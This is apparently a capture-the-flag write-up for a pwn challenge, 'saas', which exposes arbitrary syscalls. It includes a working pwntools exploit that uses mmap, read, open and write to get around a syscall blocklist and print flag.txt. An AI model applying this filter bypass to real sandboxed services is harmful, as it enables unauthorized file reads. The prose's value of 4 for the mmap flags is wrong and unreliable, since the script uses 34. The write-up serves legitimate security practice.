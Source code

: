 # [pwn] saas writeup

> You've heard of software as a service, but have you heard of syscall as a service?

In this challenge we have a binary that let us make syscalls with arbitrary parameters; before starting to dig into the code we can make some checks with checksec and with strings.
Checksec's output is:
'''
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
'''
So this is not looking good, everything is enabled. Analyzing the binary with strings doesn't reveal nothing really important, so the next step is to execute the binary.

'''
$ ./saas 
Welcome to syscall-as-a-service!

Enter rax (decimal): 0
Enter rdi (decimal): 0
Enter rsi (decimal): 0
Enter rdx (decimal): 0
Enter r10 (decimal): 0
Enter r9 (decimal): 0
Enter r8 (decimal): 0
Rax: 0x0
'''
We are basically in a while true which lets us make syscalls with arbitrary parameters (and it shows us the return value). The first thing that came into my mind was to try and call execve, but the program will prevent us from calling some blacklisted syscalls (such as execve). The complete list of all the blocked syscall is: 0x3b, 0x39, 0x38, 0x3e, 0x65, 0xc8, 0x142.

## Solution

We cannot use execve, but we can still access many other syscalls. We can assume that this binary is in the same directory in which we have our flag.txt file, so (if this is true) we can try to *open* the file, *read* its contents and *write* them on stdout. In order to do that we can use 3 syscalls (obviously, open, read and write). But there is a little problem, to open a file we need its name, which is a string and which needs to be placed somewhere in the memory of the process, but since there's PIE we have no static addresses for r/w sections that we can possibly modify. After a bit of thinking, we can just allocate our own buffer using mmap, the address will be returned from the syscall, then we will write the string "flag.txt" (null terminated) on it and we can then open the file.

In C, what we want to do is as follow:

'''
void* addr = mmap(0, 128, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
read(stdin, addr, 9);
int fd = open(addr, O_RDONLY, 0644);
read(fd, addr, 64);
write(stdout, addr, 64);
'''

We have access to all this syscalls, we just need to convert our parameters to decimal:
PROT_READ|PROT_WRITE = 3
MAP_PRIVATE|MAP_ANONYMOUS = 4
0644 = 420 (0644 is octal)
stdin = 0
stdout = 1

## Code
At this point we just need a program that sends everything to the process' stdin, we just need to capture the retval of the mmap (for the address) and the retval of the open (for the file descriptor).
The program is (in python) as follow (in this directory you will find the .py file):
from pwn import *
'''
#p = remote("jh2i.com", 50016)

p = gdb.debug("./saas", """
c
""")


#mmap
p.sendline("9")		#rax
p.sendline("0")		#rdi
p.sendline("128")	#rsi
p.sendline("3")		#rdx
p.sendline("34")	#r10
p.sendline("0")		#r9
p.sendline("-1")	#r8

p.recvuntil("Rax: 0x")
addr = str(p.recvuntil("\n")[:-1])[2:-1]
addr = str(int(addr,16))
print("Heap address ="+addr)

#read
p.sendline("0")		#rax
p.sendline("0")		#rdi
p.sendline(addr)	#rsi
p.sendline("9")		#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.sendline("flag.txt"+'\x00')
p.recvuntil("Rax: 0x")

#open
p.sendline("2")		#rax
p.sendline(addr)	#rdi
p.sendline("0")		#rsi
p.sendline("420")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8

p.recvuntil("Rax: 0x")
fd = str(p.recvuntil("\n")[:-1])[2:-1]
fd = str(int(fd,16))
print("File descriptor ="+fd)

#read
p.sendline("0")		#rax
p.sendline(fd)		#rdi
p.sendline(addr)	#rsi
p.sendline("64")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.recvuntil("Rax: 0x")

#write
p.sendline("1")		#rax
p.sendline("1")		#rdi
p.sendline(addr)	#rsi
p.sendline("64")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.recvuntil("r8 (decimal):")	#we can't read untill "Rax: 0x" because the flag is printed before that happen


p.interactive()
'''
